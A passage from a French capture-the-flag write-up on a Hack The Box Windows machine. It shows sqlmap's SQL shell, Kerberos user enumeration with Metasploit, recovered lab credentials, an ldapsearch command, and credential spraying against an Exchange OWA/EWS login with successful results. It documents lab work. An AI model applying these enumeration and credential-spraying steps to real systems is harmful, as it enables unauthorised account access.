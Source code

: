 Seulement on ne peut pas le faire en raison d'un MySQL 5.7.19 avec l'option *secure\_file\_priv* lisible via *--sql-shell* de sqlmap :  

```plain
sql-shell> select @@global.secure_file_priv;
[16:46:22] [INFO] fetching SQL SELECT statement query output: 'select @@global.secure_file_priv'
[16:46:29] [INFO] retrieved: c:\\wamp64\\tmp\\
select @@global.secure_file_priv;:    'c:\\wamp64\\tmp\\'
```

Du coup j'ai choisi de placer les noms d'utilisateurs dans un fichier, les passwords dans un autre et de tester tout ça sur différents services.  

On peut par exemple utiliser le module *gather/kerberos\_enumusers* de *Metasploit* qui nous indique que tous les utilisateurs ne sont pas présents sur le système :  

```plain
[+] 10.10.10.71:88 - User: "administrator" is present
[*] 10.10.10.71:88 - Testing User: "kain"...
[*] 10.10.10.71:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.71:88 - User: "kain" is present
[*] 10.10.10.71:88 - Testing User: "zephon"...
[*] 10.10.10.71:88 - KDC_ERR_C_PRINCIPAL_UNKNOWN - Client not found in Kerberos database
[*] 10.10.10.71:88 - User: "zephon" does not exist
[*] 10.10.10.71:88 - Testing User: "dumah"...
[*] 10.10.10.71:88 - KDC_ERR_C_PRINCIPAL_UNKNOWN - Client not found in Kerberos database
[*] 10.10.10.71:88 - User: "dumah" does not exist
[*] 10.10.10.71:88 - Testing User: "magnus"...
[*] 10.10.10.71:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.71:88 - User: "magnus" is present
[*] 10.10.10.71:88 - Testing User: "raziel"...
[*] 10.10.10.71:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.71:88 - User: "raziel" is present
[*] 10.10.10.71:88 - Testing User: "moebius"...
[*] 10.10.10.71:88 - KDC_ERR_C_PRINCIPAL_UNKNOWN - Client not found in Kerberos database
[*] 10.10.10.71:88 - User: "moebius" does not exist
[*] 10.10.10.71:88 - Testing User: "ariel"...
[*] 10.10.10.71:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.71:88 - User: "ariel" is present
```

de quoi réduire notre liste à ces credentials :  

```plain
kain doradaybendita
magnus xNnWo6272k7x
raziel kelseylovesbarry
ariel pussycatdolls
```

On peut les utiliser pour fouiller dans l'annuaire LDAP (*ldapsearch -x -H ldap://10.10.10.71:3268/ -D kain -w doradaybendita*) mais ça m'a fait une belle jambe.  

Ça devient plus intéressant quand on les essaye sur le OWA (EWS est en quelque sorte l'API):  

```plain
msf auxiliary(scanner/http/owa_ews_login) > exploit

[+] Found NTLM service at /ews/ for domain HTB.
[+] 10.10.10.71:443 - Successful login: kain:doradaybendita
[+] 10.10.10.71:443 - Successful login: magnus:xNnWo6272k7x
[+] 10.10.10.71:443 - Successful login: ariel:pussycatdolls
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
